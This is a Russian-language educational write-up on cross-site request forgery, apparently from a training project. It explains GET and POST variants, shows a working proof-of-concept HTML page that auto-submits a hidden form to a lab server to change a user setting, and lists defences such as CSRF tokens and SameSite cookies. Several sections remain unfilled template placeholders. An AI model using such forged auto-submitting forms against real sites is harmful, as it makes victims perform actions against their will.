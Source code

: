 # CSRF атака

## Описание

CSRF - это атака при которой хакер выполняет массу различных действий от имени других, зарегистрированных посетителей. Для управления сессией пользователя  многие веб-приложения используют куки (здесь и далее считаем уместным называть cookies по-русски). Браузер устроен так, что, если у него есть куки пользователя для данного домена и пути, он их автоматически отправляет вместе с HTTP-запросом.

Атаки по подделке межсайтовых запросов (CSRF) происходит в два этапа:
1) Необходимо заставить "жертву" щелкнуть по ссылке или загрузить страницу злоумышленника. Эта ссылка запускает поддельный запрос, содержащий вредоносный код. Вредоносный код обычно размещается на веб-сайте принадлежащим злоумышленнику, в другом домене.
  

2) Необходимо отправить специально созданный запрос в браузер "жертвы", который отправит законный запрос в веб-приложение (JavaScript вызывает form.submit, отправляя таким образом форму на mail.com). Запрос будет отправлен с использованием учетных данных HTTP или файлов cookie со значениями, которые хочет злоумышленник. Он будет считаться законным, даже если "жертва" будет отправлять запрос по команде злоумышленника.


## Классификация
*CSRF-атака с использованием запроса GET*

GET-запросы не должны использоваться для выполнения изменений состояния, поэтому отправка GET-запроса не изменяет никаких данных.

При щелчке вредоносной ссылки злоумышленник перенаправляет "жертву" в свое вредоносное веб-приложение, который выполняет сценарий, заставляющий браузер "жертвы" отправить незаконный (пользователь не знает о том, что он отправляется) запрос, включающий в себя необходимые файлы cookie. 


*CSRF-атаки с использованием запросов POST*

Большинство запросов на изменение состояния будут выполняться через запросы POST, отправляющие любые параметры и значения в теле запроса. 

Для запросов POST требуется, чтобы тело запроса было добавлено к самому запросу. Используя немного JavaScript, злоумышленник может заманить "жертву" в свое вредоносное веб-приложение, чтобы при загрузке веб-страницы незаконный запрос POST отправлялся автоматически.
При загрузке страницы, заготовленная функция обеспечивает отправку формы, которая в свою очередь отправляет запрос POST. В форму включены статические параметры, где, например, example.com идентифицирует запрос как законный, поскольку он будет включать файлы cookie "жертвы".


## Условия
- ОС: если проблема специфична для определенной ОС
- язык: если проблема специфичная для определенных языков
- компоненты: какие компоненты подвержены проблеме. Это могут быть библиотеки, базы данных, фреймворки, брокеры очередей и т.д.
- настройки: может есть какие-то специфичные настройки

Можно добавить еще информацию, которая не подходит под пункты выше, самостоятельно

## Детектирование
Описать как проблема детектируется. На что обращают внимание. Можно ли проблему детектировать автоматизированно или только вручную.
Если автоматизированно, то как лучше детектировать - код ревью или сканирование уязвимостей?

Информация:
- в каждый пункт можно добавлять необходимую информацию из статей в ввиде ссылок - [google.com](https://www.google.com)

## Эксплуатация

![Иллюстрация к проекту](https://github.com/kythip/shift2019/blob/master/csrf/Снимок.PNG)
На рисунке 1 показаны оригинальная страница и видоизмененный запрос, изменяющий параметр №1 с true на false.

---
![Иллюстрация к проекту](https://github.com/kythip/shift2019/blob/master/csrf/Снимок1.PNG)
На рисунке 2 показан результат перехода по видоизмененной ссылке, показанной на рисунке 1. Как на видно на рисунке 2 - пользователем, в бразуере которого были сохранены cookie и, следовательно, он был залогинен на данном сайте, был отправлен запрос против воли пользователя.
---
![Иллюстрация к проекту](https://github.com/kythip/shift2019/blob/master/csrf/Снимок2.PNG)
На рисунке 3 показан состав пакета, с помощью которого составили вредоносную ссылку. Во второй строке показан изначальный хост - адрес сервера, с которого и с которым проводятся манипуляции. В первой строке указан метод, команда и изменяемая переменная.

---
  ``` <!DOCTYPE html> 
  <html lang="en"> 
  <head> 
    <meta charset="UTF-8"> 
    <title>CSRF</title> 
  </head> 
  <body> 
 
  <br> 
  <p> 
    <form name="csrf_try" action="http://192.168.99.100:1337/change_settings_2" method="POST"> 
      <p><input type=hidden value="false" name=settings> 
  </form> 
  </p> 
    <script type="text/javascript"> 
    document.csrf_try.submit(); 
  </script>  
  </body> 
  </html>
  ```
  Данный код представляет HTML страницу на который присутсвует вредоносный код. В form указывается имя формы, метод и "действие", в данном случае переход на страницу изменения параметра. В строке input указывается атрибут hidden, который скрывает от пользователя изменения параметра на false. После формы создается javascript, который позволяет выполнить автовыполнение формы при открытии страницы.
  Теперь, если залогиненный пользователь на ресурсе 192.168.99.100, перейдет на данную страницу, то у него изменится параметр settings 2 на false.

## Ущерб
Описать во что возможно развитие вектора атаки, если не существует защитных мер вовсе. То есть описать, что максимльно может получить злоумышленник, если все условия сойдутся.

Написать, к чему могут привести в итоге эксплуатация этих векторов атак

## Защита
### Основные меры

1) CSRF токен 
* генерируется рандомный токен, который привязывается к сессии; 
* токен подставляется в форму и сверяется при приеме запроса; 
* атакующий не знает токена, следовательно не сможет заставить пользователя отправить запрос.

2) Double Submit Cookie 
* передавать токен клиенту двумя методами: в куках и в одном из параметров ответа (header или внутри HTML); 
* в последующих запросах предоставляются оба полученных ранее токена (как cookie и как header, либо внутри POST данных формы);
* сервер обязан проверить на идентичность токен из cookie и токен, который явно прислал клиент (если оба токена совпадают, то запрос не подвергся CSRF-Атаке, в ином случае — логируем событие и отклоняем запрос).

3) SameSite Cookies (Chrome, Opera)
* cookie не нужно передавать, если запрос идет с сайта, отличного от того, на котором cookie была установлена (защита ресурса от CSRF без использования дополнительных инструментов);
* Chrome уже сейчас поддерживает эту возможность.

4) Content-Type based protection
* gользователь должен отправить запрос с определенным заголовком Content-Type, например, application/json; 
(в браузере через HTML форму или XHR API невозможно отправить произвольный Content-Type cross-origin, поэтому классическая CSRF-атака не работает).

5) Referer-based protection
* пользователь должен отправить запрос с определенным значением заголовка Referer; 
* бэкенд его проверяет, если он неверный, то считается, что это CSRF-атака;
(в браузере нельзя отправить произвольный Referer через HTML форму или XHR API, поэтому классическая CSRF-атака не работает).

6) Password confirmation / websudo
* пользователь должен подтверждать действие с помощью пароля (или секрета);
(атакующий его не знает, поэтому классическая CSRF-атака не работает).


## Дополнительно
Здесь приложить дополнительную информацию и источники, которые использовали, но не указали выше в других местах.

## Обход защиты
Если существуют варианты обхода защиты, то можно их здесь перечислить.

Если есть возможность, то надо написать в чем заключается защита и каким образом она обходится.
